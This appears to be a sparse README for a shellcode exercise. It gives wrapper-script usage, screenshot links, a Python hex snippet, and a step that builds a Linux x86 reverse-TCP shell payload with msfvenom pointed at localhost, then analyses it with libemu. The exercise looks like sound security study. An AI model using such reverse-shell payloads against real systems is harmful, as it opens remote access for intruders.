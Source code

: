 # Exercise 2


## Usage


```
./wrapper.py $IP $PORT
```

![Screenshot](images/wrapper/1.png)

![Screenshot](images/wrapper/2.png)


## Steps

```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" bindshell | tee libemu_res/libemu_res.txt
```

Get Argc value: 	https://forum.nasm.us/index.php?topic=889.0

Python:
```
c[::-1].encode('hex')
```


![Screenshot](images/1.png)

![Screenshot](images/2.png)

![Screenshot](images/3.png)

![Screenshot](images/resd_problem/1.png)

![Screenshot](images/resd_problem/2.png)

![Screenshot](images/resd_problem/3.png)

![Screenshot](images/resd_problem/4.png)

![Screenshot](images/resd_problem/5.png)



